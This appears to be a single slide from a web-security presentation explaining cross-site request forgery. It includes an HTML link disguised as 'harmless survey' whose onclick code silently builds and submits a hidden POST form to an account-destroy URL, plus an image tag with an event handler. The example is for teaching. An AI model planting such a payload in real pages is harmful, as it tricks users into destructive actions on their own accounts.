

142
The actual crafted image or link isn’t necessarily situated in the web application’s domain, it can be anywhere – in a forum, blog post or email.
POST requests also can be sent (automatically).

<a href="http://www.harmless.com/" onclick="
  var f = document.createElement('form');
  f.style.display = 'none';
  this.parentNode.appendChild(f);
  f.method = 'POST';
  f.action = 'http://www.example.com/account/destroy';
  f.submit();
  return false;">To the harmless survey</a>
<img src="http://www.harmless.com/img" width="400" height="400" onmouseover="..." />